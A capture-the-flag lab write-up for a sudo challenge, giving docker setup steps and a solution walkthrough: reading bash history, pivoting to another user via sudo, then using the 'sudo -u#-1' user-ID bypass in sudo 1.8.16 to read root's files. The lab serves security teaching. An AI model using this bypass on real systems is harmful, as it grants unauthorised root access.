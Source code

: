 # Sudo - Integer Overflow

## Setup

1. Build the docker image
```bash
$ make build
```
2. Bind port & run docker image
```bash
$ make run
0.0.0.0:[PORT]
```
3. Log in to account 'user', password 'ctf'
`$ ssh user@localhost -p [PORT]`

## Solution

1. Looking through bash history, notices sudo permissions were probably changed with 'visudo'

```bash
# use history command
$ history
1. cd /etc/
2. visudo
3. ls -l .
4. exit
# or just print the contents
$ cat .bash_history
```

2. Check to see sudo permissions

```bash
$ sudo -l
User user may run the following commands on ...:
    (alice) ALL
```

3. Many things can be done at this point, easiest may be to just run bash
```bash
$ sudo -u alice /bin/bash
alice@...:~$
```

4. Running sudo -l again, notice strange permissions
```bash
$ sudo -l
User alice may run the following commands on ...:
    (ALL, !root) NOPASSWD: /bin/cat, /bin/ls
```

5. Looking at sudo version, we will notice the outdated version
```bash
$ sudo --version
Sudo version 1.8.16
Sudoers policy plugin version 1.8.16
Sudoers file grammar version 45
Sudoers I/O plugin version 1.8.16
```

6. This outdated version can be exploited for integer overflow. Use it to look at /root directory
```bash
$ sudo -u#-1 ls /root
flag
```
7. Read the flag!
```bash
$ sudo -u#-1 cat /root/flag
```
